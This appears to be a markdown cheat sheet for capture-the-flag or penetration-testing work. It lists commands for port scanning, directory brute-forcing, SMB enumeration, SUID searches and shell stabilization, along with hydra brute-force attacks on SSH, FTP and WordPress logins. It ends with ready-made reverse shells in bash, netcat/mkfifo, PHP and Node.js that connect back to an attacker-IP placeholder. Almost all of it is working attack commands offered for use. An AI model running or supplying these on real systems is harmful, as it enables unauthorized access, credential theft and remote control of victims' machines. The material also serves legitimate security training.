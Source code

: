 # Network and Web Enumeration

## Port Scanning and Service Detection

```bash
nmap -sV -p- <TARGET_IP>
```

## Directory and File Discovery

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

```bash
gobuster dir -u https://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

## SMB and NetBIOS Enumeration

```bash
enum4linux <TARGET_IP>
```

# File Transfer Methods

## HTTP Server Setup

```bash
python -m SimpleHTTPServer
```

## Secure File Transfer

```bash
scp <USER_NAME>@<TARGET_IP>:<FILE_NAME> .
```

# Linux Privilege Escalation and System Commands

## Privilege and Permission Analysis

```bash
sudo -l
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
find / -user <USER_NAME> -type f 2>/dev/null
```

## Shell Upgrade and Stabilization

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Steganography and Image Analysis

## Metadata Extraction

```BASH
exiftool <IMAGE_NAME>.jpg
```

## Hidden Data Extraction

```bash
steghide extract -sf <IMAGE_NAME>.jpg
```

```bash
binwalk -e <IMAGE_NAME>.png
```

## Binwalk Compatibility Fix

```Bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

# Password Generation and Cracking

## Custom Wordlist Generation

```bash
crunch 18 18 -t '@@@@' > file.txt
```

## Network Service Brute Force Attacks

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ssh://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ftp://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-get -s 8080 /
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
```

## Archive Password Cracking

```bash
zip2john <FILE_NAME>.zip > hash.txt
john hash.txt
```

# File Transfer Protocol (FTP) Operations

## Basic FTP Commands

```bash
ftp <TARGET_IP>
anonymous
ls -la
get <FILE_NAME>
mget *
put <FILE_NAME>
```

# Server Message Block (SMB) Enumeration

## SMB Share Discovery

```bash
smbclient -L //<TARGET_IP> -N
```

```bash
smbclient -L //<TARGET_IP> -U <USER_NAME>
```

# Reverse Shell Techniques

## Netcat Listener Setup

```bash
nc -lvnp 4444
```

## Bash Reverse Shells

```bash
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > script.sh
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 > /tmp/f" > script.sh
```

## PHP Reverse Shells

```php
<?php
$ip = '0.0.0.0';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'");
?>
```

## Node.js Reverse Shell

```js
require("child_process").exec(
  "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 >/tmp/f"
);
```

# Metasploit Framework Usage

## Metasploit Commands

```bash
msfconsole
show options
set
run
```

# Online Tools and Resources

- [CyberChef](https://gchq.github.io/CyberChef/)
- [dCode](https://www.dcode.fr/en)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit Database](https://www.exploit-db.com/)

